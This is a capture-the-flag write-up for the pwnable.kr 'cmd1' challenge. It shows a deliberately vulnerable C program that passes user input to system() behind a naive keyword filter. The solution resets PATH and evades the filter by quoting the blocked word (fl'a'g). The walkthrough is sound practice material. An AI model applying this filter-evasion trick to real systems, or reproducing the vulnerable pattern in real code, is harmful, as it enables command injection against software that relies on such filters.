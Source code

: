 ## pwn : cmd1 [writeup]

Challenge from [pwnable.kr](https://pwnable.kr/)

**In this challenge** We have this code :

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

We need this code to run the command `cat flag`:
```c
system( argv[1] );
```

So we have to put in our argv
```bash
cat flag
```

**This way ?**
```bash
./cmd1 "cat flag"
```

**Wrong!**

Because this line 
```c
putenv("PATH=/thankyouverymuch");
```
will set an env variable `PATH` to `/thankyouverymuch`
`PATH` is an environment variable that tells the shell which directory to search for executable files.

understand more about environment variables [HERE](https://medium.com/towards-data-engineering/understanding-the-path-variable-in-linux-2e4bcbe47bf5#:~:text=The%20PATH%20variable%20in%20Linux%20is%20an%20environment%20variable%20that,printenv%20%7C%20grep%20PATH) 

after we understand the problem let's Solve it.

**Steps To Solve**

1. Get the PATH env value by using `env` command :
![cmd1](https://i.imgur.com/lASMcQt.png)

2. Now Before executing `cat flag` we want to set our `PATH` variable to it's value, in our case :
```bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
3. Lets give the program our export variable :
```bash
./cmd1 "export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin' && cat flag"
```
4. But why we didn't get the flag yet ?
- because of this function `filter`
```c
if(filter(argv[1])) return 0;
```

```c
int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
```

The function `filter` checks if a given command string (cmd) contains any of the substrings `"flag"`, "`sh"`, or `"tmp"`. If any of these substrings are found, the variable r is incremented by one for each match.

So it our case it returns 1 because our `argv[1]` contains `flag`.

to solve this i did a simple trick :
```bash
./cmd1 "export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin' && cat fl'a'g"
```

I addeed `''` to flag `fl'a'g` because it will expand later on to `flag`.

end.
